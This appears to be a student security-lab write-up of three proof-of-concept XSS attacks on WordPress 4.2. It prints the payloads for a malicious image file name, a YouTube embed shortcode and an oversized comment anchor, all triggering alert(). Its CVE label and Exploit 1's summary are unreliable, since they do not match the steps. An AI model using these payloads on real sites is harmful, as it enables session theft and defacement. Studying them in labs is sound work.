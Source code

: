 # CodePath Week 7
Week 7 Word Press Exploits

Exploit 1: Cross-Site Scripting (XSS)

Summary:
CVE-2017-0961
Vulnerability type : XSS
Tested Version: 4.2
Fixed Version: 4.2.1
Uploading a large payload file that exceeds the limit results in an error.

Steps:
xss<img src=x onerror=alert(1)>.png
upload to new media on wpdistillery


Exploit 2: Authenticated XSS in youtube link

Summary:
Vulnerability Type: XSS
Test Version: 4.2
Fixed Version: 4.2.1

Steps:
Must be a registered user with acess to edit/create posts
In creating a post, upload the following script:
[embed src='https://youtube.com/embed/123\x3csvg onload=alert(1)\x3e'][/embed]
After clicking update, click view post- you will get the XSS alert


Exploit 3: Unauthenticated XSS in comment

Summary: 
Vulnerability Type: XSS
Test Version: 4.2
Fixed Version: 4.2.1

Steps:

<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  <insert 64kb of random data>'></a>





